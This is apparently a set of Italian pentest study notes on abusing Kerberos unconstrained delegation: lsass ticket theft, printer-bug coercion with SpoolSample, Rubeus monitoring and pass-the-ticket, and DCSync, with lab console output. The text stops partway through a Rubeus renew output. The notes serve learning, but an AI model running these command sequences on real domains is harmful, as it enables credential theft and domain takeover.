- [Delegation](#delegation)
  - [Unconstrained Delegation](#unconstrained-delegation)
    - [Il flusso:](#il-flusso)
    - [Perché "delegates his TGT" è così pericoloso](#perché-delegates-his-tgt-è-così-pericoloso)
    - [Unconstrained Delegation - Computer](#unconstrained-delegation---computer)
    - [Lo scenario di attacco concreto](#lo-scenario-di-attacco-concreto)
      - [Piccola sottigliezza interessante!](#piccola-sottigliezza-interessante)
        - [La cosa sottile](#la-cosa-sottile)
      - [Qui non c'è nessun PRE-AUTH!](#qui-non-cè-nessun-pre-auth)
        - [Cosa mandi al DC nella TGS-REQ](#cosa-mandi-al-dc-nella-tgs-req)
          - [Il problema dell'authenticator](#il-problema-dellauthenticator)
    - [Cos'è lsass](#cosè-lsass)
    - [Cosa fa Rubeus monitor](#cosa-fa-rubeus-monitor)
    - [Altri attacchi Unconstrained Delegation - Computer](#altri-attacchi-unconstrained-delegation---computer)
      - [In attesa dell'autenticazione dell'utente privilegiato](#in-attesa-dellautenticazione-dellutente-privilegiato)
      - [Sfruttare il Printer Bug](#sfruttare-il-printer-bug)
        - [Se il computer di destinazione non è un Domain Controller](#se-il-computer-di-destinazione-non-è-un-domain-controller)
    - [Unconstrained Delegation - Users](#unconstrained-delegation---users)
  - [Constrained Delegation (S4U2Proxy)](#constrained-delegation-s4u2proxy)
    - [Impersonare qualsiasi utente](#impersonare-qualsiasi-utente)
    - [La differenza pratica con unconstrained](#la-differenza-pratica-con-unconstrained)
    - [S4U2Proxy \& S4U2Self](#s4u2proxy--s4u2self)
      - [S4U2Proxy](#s4u2proxy)
      - [S4U2Self — Il problema che risolve](#s4u2self--il-problema-che-risolve)
        - [Come funziona S4U2Self](#come-funziona-s4u2self)
    - [L'unica eccezione — protocol transition](#lunica-eccezione--protocol-transition)
      - [TrustedToAuthForDelegation (Protocol Transition)](#trustedtoauthfordelegation-protocol-transition)
      - [Constrained delegation senza protocol transition](#constrained-delegation-senza-protocol-transition)
      - [Se trustedtoauthfordelegation: False, io ho compromesso serviceA, allora potrò chiedere un TGS solo per mario in serviceB?](#se-trustedtoauthfordelegation-false-io-ho-compromesso-servicea-allora-potrò-chiedere-un-tgs-solo-per-mario-in-serviceb)
        - [Il flusso concreto](#il-flusso-concreto)
      - [La differenza pratica rispetto a TrustedToAuthForDelegation: True](#la-differenza-pratica-rispetto-a-trustedtoauthfordelegation-true)
    - [I flag vengono settati sull'account, non sul servizio in sé](#i-flag-vengono-settati-sullaccount-non-sul-servizio-in-sé)
      - [Quando si usa l'uno o l'altro](#quando-si-usa-luno-o-laltro)
        - [Perché è importante offensivamente](#perché-è-importante-offensivamente)
    - [Esempio Constrained Delegation su Windows](#esempio-constrained-delegation-su-windows)
      - [Enumerazione](#enumerazione)
      - [WS01: Richiedere un ticket TGS valido](#ws01-richiedere-un-ticket-tgs-valido)
        - [Hash della macchina](#hash-della-macchina)
      - [WS01: Verifica nuovo ticket](#ws01-verifica-nuovo-ticket)
      - [Accesso Remoto a DMZ01](#accesso-remoto-a-dmz01)
    - [Esempio Constrained Delegation su Linux](#esempio-constrained-delegation-su-linux)
      - [Trovare account con delega](#trovare-account-con-delega)
      - [Usare getST](#usare-getst)
    - [Esempio Completo Constrained Delegation](#esempio-completo-constrained-delegation)
      - [Step 1 — verifichi la delegation](#step-1--verifichi-la-delegation)
        - [Step 2 — dumpi l'hash di svc-web da lsass](#step-2--dumpi-lhash-di-svc-web-da-lsass)
        - [Step 3 — impersoni il DA verso FILE-SRV](#step-3--impersoni-il-da-verso-file-srv)
      - [Step 4 — accedi a FILE-SRV come Administrator](#step-4--accedi-a-file-srv-come-administrator)
    - [Il problema di partenza](#il-problema-di-partenza)
      - [S4U2Self — creare la "prova" dal nulla](#s4u2self--creare-la-prova-dal-nulla)
      - [S4U2Proxy — usare quella prova per ottenere il TGS finale](#s4u2proxy--usare-quella-prova-per-ottenere-il-tgs-finale)
        - [Il flusso visivo](#il-flusso-visivo)
      - [Perché il DC accetta S4U2Self senza che Administrator lo sappia](#perché-il-dc-accetta-s4u2self-senza-che-administrator-lo-sappia)
    - [Serve necessariamente administrator? s4u2self con un altro utente?](#serve-necessariamente-administrator-s4u2self-con-un-altro-utente)
      - [Esempi](#esempi)
      - [L'unica eccezione — utenti protetti](#lunica-eccezione--utenti-protetti)
  - [Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-rbcd)
    - [Il problema della constrained delegation classica](#il-problema-della-constrained-delegation-classica)
    - [L'idea di RBCD](#lidea-di-rbcd)
    - [Perché è più flessibile](#perché-è-più-flessibile)
    - [Il meccanismo Kerberos](#il-meccanismo-kerberos)
    - [Esempio RBCD su Windows](#esempio-rbcd-su-windows)
      - [Se non disponiamo di tali diritti, potremmo creare un computer fittizio.](#se-non-disponiamo-di-tali-diritti-potremmo-creare-un-computer-fittizio)
        - [Usare PowerMad per creare un computer fittizio](#usare-powermad-per-creare-un-computer-fittizio)
      - [Esempio RBCD su Linux](#esempio-rbcd-su-linux)
      - [RBCD da Linux quando MachineAccountQuota = 0](#rbcd-da-linux-quando-machineaccountquota--0)
    - [Esempio](#esempio)
      - [Step 1 — verifichi la configurazione RBCD su FILE-SRV](#step-1--verifichi-la-configurazione-rbcd-su-file-srv)
        - [Risolvi il SID per confermare:](#risolvi-il-sid-per-confermare)
      - [Step 2 — dumpi l'hash di WEB-SRV$ da lsass](#step-2--dumpi-lhash-di-web-srv-da-lsass)
      - [Step 3 — S4U2Self + S4U2Proxy](#step-3--s4u2self--s4u2proxy)
      - [Step 4 — accedi a FILE-SRV](#step-4--accedi-a-file-srv)
    - [Esempio 2 - non ci sono delegation configurate e le crei tu abusando di GenericWrite.](#esempio-2---non-ci-sono-delegation-configurate-e-le-crei-tu-abusando-di-genericwrite)
      - [Step 1 — crei un computer account fasullo (ogni utente di dominio può crearne fino a 10 di default):](#step-1--crei-un-computer-account-fasullo-ogni-utente-di-dominio-può-crearne-fino-a-10-di-default)
      - [Step 2 — scrivi l'attributo RBCD su PC-Luca dicendo che FakePC può delegare verso di lui:](#step-2--scrivi-lattributo-rbcd-su-pc-luca-dicendo-che-fakepc-può-delegare-verso-di-lui)
      - [Step 3 — ora FakePC può delegare verso PC-Luca. Usi S4U2Self + S4U2Proxy con le credenziali di FakePC:](#step-3--ora-fakepc-può-delegare-verso-pc-luca-usi-s4u2self--s4u2proxy-con-le-credenziali-di-fakepc)
        - [Perché funziona S4U2Self qui](#perché-funziona-s4u2self-qui)
      - [Output di Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity](#output-di-get-domaincomputer-file-srv--properties-msds-allowedtoactonbehalfofotheridentity)
      - [Cosa fa questo comando $sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0](#cosa-fa-questo-comando-sd--new-object-securityaccesscontrolrawsecuritydescriptor--argumentlist-raw-0)
        - [Cosa contiene l'oggetto dopo la decodifica](#cosa-contiene-loggetto-dopo-la-decodifica)
      - [Cosa sono security descriptor?](#cosa-sono-security-descriptor)
        - [Cosa contiene](#cosa-contiene)
        - [Cosa sono gli ACE](#cosa-sono-gli-ace)
        - [Perché è rilevante in AD](#perché-è-rilevante-in-ad)
        - [Come le vedi in PowerShell](#come-le-vedi-in-powershell)


# Delegation
Il protocollo Kerberos consente a un utente di autenticarsi a un servizio per poterlo utilizzare, e la delega Kerberos permette a tale servizio di autenticarsi a un altro servizio come l'utente originale.



In questo esempio, un utente si autentica in WEBSRV per accedere al sito web. Una volta autenticato sul sito web, l'utente deve accedere alle informazioni memorizzate in un database, ma non dovrebbe avere accesso a tutte le informazioni in esso contenute. L'account di servizio che gestisce il sito web deve comunicare con il database utilizzando i diritti dell'utente in modo che il database consenta l'accesso solo alle risorse a cui l'utente ha il diritto di accedere. È qui che entra in gioco la delega. L'account di servizio, in questo caso ```WEBSRV$```, simulerà l'utente quando accede al database. E questo magico processo è chiamato delegation.


## Unconstrained Delegation
Consente ad un servizio, in questo caso WEBSRV, di impersonare un utente durante l'accesso in ogni servizio. Si tratta di un privilegio molto permissivo e pericoloso, pertanto non tutti gli utenti possono concederlo.


Affinché un account disponga di un unconstrained delegation, nella scheda **Delegation** dell'account, la voce ```Trust this computer for delegation to any service (Kerberos only)``` deve essere selezionata:


Solo un amministratore o un utente con privilegi elevati, a cui tali privilegi sono stati esplicitamente concessi, può impostare questa opzione per altri account. Più precisamente, è necessario disporre del provilegio **SeEnableDelegationPrivilege** per eseguire questa azione. Un account di servizio non può modificare le proprie impostazioni per aggiungere questa opzione. Tipicamente solo un Domain Admin ha quel flag. Questo è importante perché significa che se trovi un account con questo flag, un amministratore lo ha configurato intenzionalmente (o per errore).

- Nello specifico, quando questa opzione è abilitata, il flag ```TRUSTED_FOR_DELEGATION``` viene impostato sull'account tra i flag del Controllo account utente (UAC).
- Quando questo flag è impostato su un account di servizio e un utente effettua una richiesta TGS per accedere a tale servizio, il controller di dominio aggiungerà una copia del TGT dell'utente al ticket TGS. In questo modo, l'account di servizio può estrarre questo TGT e quindi effettuare richieste TGS al controller di dominio utilizzando una copia del TGT dell'utente. Il servizio disporrà quindi di un ticket TGS o di un ticket di servizio (ST) valido come l'utente e potrà accedere a qualsiasi servizio come l'utente.
  ```
  Quando un account di servizio ha il flag 
  1. Utente fa TGS-REQ per accedere al Servizio Web
          ↓
  2. Il DC aggiunge una COPIA del TGT dell'utente dentro il TGS
          ↓
  3. Il Servizio Web riceve il TGS, estrae il TGT dell'utente
          ↓
  4. Il Servizio Web usa quel TGT per fare richieste al DC
    come se fosse l'utente
          ↓
  5. Accede al Database (o a QUALSIASI altro servizio) AS the user
  ```


### Il flusso:
- 1-2 — Mario si autentica al DC e ottiene il suo TGT.
- 3-4 — Mario chiede un TGS per Service A e lo ottiene.
- 5 — "authenticates with TGS and delegates his TGT" — questo è il punto critico. Mario manda al Service A non solo il TGS, ma anche il suo TGT completo. Service A ora ha in memoria il TGT originale di Mario.
- 6-7 — Service A usa il TGT di Mario per chiedere al DC un TGS per Service B, come se fosse Mario stesso a chiederlo. Il DC non sa distinguere, il TGT è valido e appartiene a Mario.
- 8 — Service A presenta quel TGS a Service B, impersonando completamente Mario.

### Perché "delegates his TGT" è così pericoloso
- Il TGT è la chiave master di Mario, con esso puoi chiedere ticket per qualsiasi servizio nel dominio. Quando Mario lo consegna a Service A, sta dicendo di fatto **"fai qualsiasi cosa per conto mio, verso chiunque"**.
- La cosa grave è che Mario non sceglie di farlo consapevolmente, **è Windows che lo fa automaticamente quando Service A ha la flag di unconstrained delegation**. Mario non vede nessun avviso, nessuna conferma.
- Il servizio può impersonare l'utente verso qualsiasi risorsa del dominio, non solo il Database. Se un Domain Admin si autentica a quel servizio:
  ```
  Attaccante controlla il Servizio Web
          ↓
  Domain Admin si autentica al servizio
          ↓
  Attaccante estrae il TGT del Domain Admin dalla memoria
          ↓
  Attaccante è Domain Admin
  ```

### Unconstrained Delegation - Computer
- Era l'unico tipo di delega disponibile in Windows 2000.
- Se un utente richiede un ticket di assistenza su un server con la uncostrained delegation abilitata, il Ticket Granting Ticket (TGT) dell'utente viene incorporato nel ticket di assistenza che viene quindi presentato al server. Il server può memorizzare nella cache questo ticket e quindi fingere di essere quell'utente per le successive richieste di risorse nel dominio. 
- Se l'unconstrained delegation non è abilitata, in memoria verrà memorizzato solo il ticket del Ticket Granting Service (TGS) dell'utente. In questo caso, se la macchina viene compromessa, un utente malintenzionato potrebbe accedere solo alla risorsa specificata nel ticket TGS nel contesto di quell'utente.



Può impersonare verso qualsiasi servizio, solo Kerberos!

Unconstrained abilitato vs disabilitato
```
Unconstrained abilitato:        Unconstrained NON abilitato:
In memoria su WEBSRV            In memoria su WEBSRV
├── TGT dell'utente             └── solo TGS per quel servizio
└── TGS del servizio            
         ↓                               ↓
Attaccante può impersonare       Attaccante può accedere
l'utente OVUNQUE                 SOLO a quella risorsa specifica
```

### Lo scenario di attacco concreto
Tu hai compromesso Service A (che ha unconstrained delegation). Aspetti che un DA si autentichi a quel servizio — magari forzandolo tu stesso con il printer bug (vedi pagina AD.md per saperne di più del printer bug):
```
# Forza il DC a autenticarsi a Service A (printer bug)
SpoolSample.exe dc.corp.local serviceA.corp.local

# Nel frattempo su Service A aspetti il TGT del DC
Rubeus.exe monitor /interval:1 /filteruser:dc$

# Quando arriva, lo inietti nella tua sessione
Rubeus.exe ptt /ticket:<base64-ticket>

# Ora hai il TGT del DC — puoi fare DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
Il TGT del domain controller è equivalente a essere DA — con esso puoi fare DCSync e dumpare tutti gli hash del dominio.
```

#### Piccola sottigliezza interessante!
Quando fai DCSync con il TGT del DC, il flusso Kerberos normale avviene, Mimikatz usa quel TGT per chiedere un TGS per il servizio di replica AD (ldap/dc.corp.local), poi usa quel TGS per parlare con il DC e richiedere la replica delle credenziali.
```
Tu (con TGT del DC$) → chiedi TGS per ldap/dc.corp.local → DC risponde con TGS
Tu → usi TGS per fare replica DRSUAPI → DC ti manda gli hash
```
Il DC accetta la richiesta di replica perché dal suo punto di vista sta parlando con se stesso — il TGT appartiene a DC$, che ha i diritti di replica per design.

##### La cosa sottile
DCSync non è un attacco che sfrutta una vulnerabilità tecnica di Kerberos — sfrutta il fatto che i DC hanno il privilegio ```Replicating Directory Changes All``` per sincronizzarsi tra loro. Mimikatz simula il comportamento di un DC secondario che chiede al DC primario di replicare le credenziali, usando il protocollo legittimo DRSUAPI.

Quindi il flusso completo dall'inizio è:
1. Comprometti macchina con unconstrained delegation
2. Forzi DC$ ad autenticarsi → rubi il suo TGT
3. Inietti il TGT di DC$ nella tua sessione
4. Chiedi TGS per ldap/dc.corp.local (usando TGT di DC$)
5. DC rilascia TGS perché il TGT è valido
6. Usi TGS per fare DRSUAPI replication request
7. DC ti manda gli hash di krbtgt, Administrator, tutti

Dal punto di vista del DC è tutto legittimo — vede un altro DC che si sta sincronizzando. Non sa che sei tu.

#### Qui non c'è nessun PRE-AUTH!

- **La preauth serve solo per ottenere il TGT**
- La preauth (step 1 del flusso Kerberos) serve esclusivamente nella fase AS-REQ — quando chiedi il TGT al DC per la prima volta. È lì che dimostri di conoscere la chiave dell'utente cifrando il timestamp.
- Ma tu il TGT di DC$ lo hai già — l'hai rubato dalla memoria di Service A. Quindi salti completamente la fase di preauth e entri direttamente alla fase 2.
```
Flusso normale:
AS-REQ (preauth con chiave di DC$) → AS-REP (TGT) → TGS-REQ → TGS-REP → servizio

Flusso con TGT rubato:
[salti AS-REQ completamente]  →  TGS-REQ (presenti TGT rubato) → TGS-REP → servizio
```

##### Cosa mandi al DC nella TGS-REQ
Quando usi il TGT rubato per chiedere un TGS, mandi:

- il TGT di DC$ (che hai rubato)
- un authenticator cifrato con la chiave di sessione contenuta nel TGT
- il nome del servizio che vuoi (ldap/dc.corp.local)

Il DC decifra il TGT con krbtgt, trova la chiave di sessione dentro, verifica l'authenticator, e rilascia il TGS — vedendo solo che DC$ sta chiedendo un ticket, senza sapere che sei tu.


###### Il problema dell'authenticator


Aspetta, hai detto che l'authenticator è cifrato con la chiave di sessione contenuta nel TGT. Ma quella chiave di sessione non la conosci tu — è dentro il TGT cifrato con krbtgt, che non puoi leggere.

La risposta è che quando Rubeus cattura il TGT dalla memoria di lsass, **cattura non solo il TGT ma anche la chiave di sessione associata — perché lsass le tiene entrambe in memoria per poterle usare**. Quindi hai tutto il necessario per costruire una TGS-REQ valida.
```
powershell# Rubeus cattura TGT + chiave di sessione insieme
Rubeus.exe monitor /interval:1 /filteruser:dc$

# Output contiene il ticket completo con tutto il necessario
# per fare TGS-REQ senza mai fare preauth
Rubeus.exe ptt /ticket:<base64>
```

Ecco perché rubare un TGT dalla memoria è così potente — non stai solo rubando un token, stai rubando tutto il materiale crittografico necessario per impersonare quell'account completamente.

### Cos'è lsass
- lsass.exe (Local Security Authority Subsystem Service) è il processo Windows responsabile di gestire tutte le autenticazioni. Ogni volta che un utente si autentica su quella macchina, lsass riceve le credenziali, le verifica, e poi le tiene in memoria per tutta la durata della sessione — inclusi TGT e chiavi di sessione.
- Quindi lsass è fondamentalmente un deposito di credenziali attive in memoria.

### Cosa fa Rubeus monitor
- Rubeus.exe monitor non intercetta traffico di rete — apre un handle al processo lsass con **SeDebugPrivilege** (lo stesso che abiliti con **privilege::debug** in Mimikatz) e **legge direttamente le strutture dati in memoria dove lsass conserva i ticket Kerberos**.
- Ogni secondo (con /interval:1) controlla se sono apparsi nuovi ticket in memoria. Quando il DC si autentica a Service A per via del printer bug, lsass di Service A riceve e salva il TGT di DC$ — e Rubeus lo vede comparire.

```
lsass memory su Service A:
┌─────────────────────────────────┐
│ Sessione Mario    → TGT Mario   │
│ Sessione DC$      → TGT DC$  ← │ Rubeus lo legge qui
└─────────────────────────────────┘
```


### Altri attacchi Unconstrained Delegation - Computer
#### In attesa dell'autenticazione dell'utente privilegiato
Se riusciamo a compromettere un server con unconstrained delegation abilitata e un amministratore di dominio effettua successivamente l'accesso, saremo in grado di estrarre il suo TGT e utilizzarlo per spostarci lateralmente e compromettere altre macchine, inclusi i controller di dominio.

Rubeus è lo strumento ideale per questo tipo di attacco. Come amministratore locale, è possibile eseguire Rubeus per monitorare i ticket memorizzati. Se viene rilevato un TGT all'interno di un ticket TGS, Rubeus ce lo mostrerà.

```
.\Rubeus.exe monitor /interval:5 /nowrap
```

Pochi istanti dopo, Sarah Lafferty si connette al server compromesso. Rubeus recupera la copia del TGT di Sarah che era incorporata nel suo biglietto TGS e ce la mostra codificata in base64.
```
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:06:40 AM UTC - Found new TGT:

  User                  :  sarah.lafferty@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:06:37 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFmTCCBZWgAwIBBaEDAgEWooIEgjCCBH5hggR6MIIEdqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQsMIIEKKADAgESoQMCAQKiggQaBIIEFr7cTE+mYOQsYF69H0dnaQwX2Iy/dB0k91uEBGQh/Dk0lm12PzkVgX<SNIP>
```

Grazie a PowerView, possiamo elencare i gruppi a cui appartiene Sarah. Risulta essere nel gruppo Domain Admins. Quindi ora abbiamo il TGT di un amministratore di dominio.
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainGroup -MemberIdentity sarah.lafferty

grouptype              : DOMAIN_LOCAL_SCOPE, SECURITY
iscriticalsystemobject : True
samaccounttype         : ALIAS_OBJECT
samaccountname         : Denied RODC Password Replication Group
whenchanged            : 7/26/2020 8:14:37 PM
<SNIP>

grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 8/14/2020 11:04:50 AM
<SNIP>

usncreated             : 12348
grouptype              : GLOBAL_SCOPE, SECURITY
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Users
whenchanged            : 7/26/2020 8:14:37 PM
<SNIP>
```

Useremo quindi questo TGT per accedere al CIFSservizio del Domain Controller, ad esempio. L'opzione ```/ptt``` viene utilizzata per caricare in memoria il ticket ricevuto, in modo che possa essere utilizzato per richieste future.

> Nota: possiamo anche utilizzare il comando net view \\COMPUTERNAME per identificare le azioni disponibili.

Utilizzo del biglietto per richiedere un altro biglietto:
```
PS C:\Tools> .\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGS

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc01.INLANEFREIGHT.local'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIErTCCBKlhggSlMIIEoaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKzApoAMCAQKhIjAgGwRjaWZzGxhkYzAxLklOTEFORUZSRUlHSFQubG9jYWyjggRUMIIEUKADAgES
      oQMCAQOiggRCBIIEPrCawPV<SNIP>

  ServiceName           :  cifs/dc01.INLANEFREIGHT.local
  ServiceRealm          :  INLANEFREIGHT.LOCAL
  UserName              :  sarah.lafferty
  UserRealm             :  INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:21:49 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  zRzk0ldsF4rb7p7/MlfRkhOzkjIHL4DSok1vXYS3lt8=
```
Nel caso in cui il comando precedente non funzioni, possiamo anche utilizzare l' azione di rinnovo per ottenere un TGT completamente nuovo invece di un biglietto TGS:

```
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\brian.willis'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIGHDCCBhigAwIBBaEDAgEWooIFCDCCBQRhggUAMIIE/KADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D<SNIP>.
```

Una volta ottenuto il TGS o il TGT, possiamo elencare il contenuto del file system del Domain Controller come mostrato nel comando seguente.

```
PS C:\Tools> dir \\dc01.inlanefreight.local\c$

 Volume in drive \\dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is 7674-0745

 Directory of \\dc01.inlanefreight.local\c$

07/27/2020  05:56 PM    <DIR>          Department Shares
07/16/2016  06:23 AM    <DIR>          PerfLogs
07/28/2020  05:35 AM    <DIR>          Program Files
07/27/2020  12:14 PM    <DIR>          Program Files (x86)
07/27/2020  07:37 PM    <DIR>          Software
07/30/2020  07:15 PM    <DIR>          Tools
07/30/2020  11:49 AM    <DIR>          Users
07/30/2020  09:13 AM    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  27,711,119,360 bytes free
```

> Potremmo anche richiedere un ticket TGS per il servizio LDAP e chiedere la sincronizzazione con il controller di dominio per ottenere tutti gli hash delle password degli utenti.

#### Sfruttare il Printer Bug
Per info sul Printer Bug vedi AD.md.

Ma insomma, qualsiasi utente di dominio può forzare un server Windows ad autenticarsi verso un host arbitrario tramite il servizio Spooler di stampa.
```
Attaccante dice a DC01:
"Hey, connettiti a SQL01 per una notifica di stampa"
         ↓
DC01 si autentica a SQL01 via SMB
(non può rifiutarsi, è il protocollo)
         ↓
DC01 invia il suo TGT a SQL01 🔴
```

L'attacco combinato step by step
```
Prerequisiti:
├── SQL01 compromesso ✅
├── SQL01 ha Unconstrained Delegation ✅
└── DC01 ha il servizio Spooler attivo ✅

Step 1: Avvia Rubeus in monitor mode su SQL01
        → monitora continuamente nuovi TGT in memoria

Step 2: Lancia SpoolSample
        SpoolSample DC01 SQL01
        → forza DC01 ad autenticarsi a SQL01

Step 3: DC01 si connette a SQL01 via SMB
        → il TGT di DC01$ viene cachato in memoria su SQL01

Step 4: Rubeus cattura il TGT di DC01$

Step 5: Pass-the-Ticket con il TGT di DC01$
        → sei il Domain Controller

Step 6: DCSync attack
        → dumpi tutti gli hash del dominio 🔴
```

Visivamente l'attacco completo
```
                    SpoolSample
Attaccante ──────────────────────→ DC01
(su SQL01)         "connettiti     │
                    a SQL01"       │ autenticazione forzata
                                   ↓
SQL01 ←──────────── TGT di DC01$ ──┘
  │
  │ Rubeus cattura il TGT
  ↓
DCSync → tutti gli hash → dominio compromesso 🔴
```
Se il servizio Spooler non è attivo su DC01, si può usare la stessa tecnica contro qualsiasi altro computer del dominio:
```
DC01 senza Spooler?
         ↓
Forza un altro computer (es. FILE01) ad autenticarsi
         ↓
Cattura il TGT di FILE01$ (account macchina)
         ↓
Crea Silver Ticket con Rubeus
(accesso a servizi specifici di FILE01)
```

Monitoraggio dei ticket con Rubeus
```
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs
```

Eseguendo Rubeus in modalità monitor, tentiamo quindi di attivare il printer bug dallo stesso host (SQL01) eseguendo SpoolSample (https://github.com/leechristensen/SpoolSample) in un'altra finestra della console. La sintassi per questo strumento è ```SpoolSample.exe <target server> <capture server>```, dove il server di destinazione nel nostro laboratorio di esempio è ```DC01``` e il server di acquisizione è ```SQL01```.

```
PS C:\Tools> .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01.inlanefreight.local, CaptureServer: \\sql01.inlanefreight.local
Target server attempted authentication and got an access denied. If coercing authentication to an NTLM challenge-response capture tool(e.g. responder/inveigh/MSF SMB capture), this is expected and indicates the coerced authentication worked.
```

Se tutto funziona come previsto, riceveremo il messaggio di conferma sopra riportato dallo strumento. Tornando alla console ```Rubeus``` in modalità monitor, abbiamo recuperato il TGT dall'account ```DC01$```, che corrisponde all'account del computer del controller di dominio.
```
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:49:26 AM UTC - Found new TGT:

  User                  :  DC01$@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:22:44 AM
  EndTime               :  8/14/2020 2:22:44 PM
  RenewTill             :  8/20/2020 6:52:29 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUl<SNIP>
```

Possiamo usare questo ticket per ottenere un nuovo TGT valido in memoria usando l'opzione ```renew``` in Rubeus.
```
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQ
uTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMCAQKiggPxBIID7XBw4BNnnymchVY/H/
9966JMGtJhKaNLBt21SY3+on4lrOrHo<SNIP> /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Renew Ticket

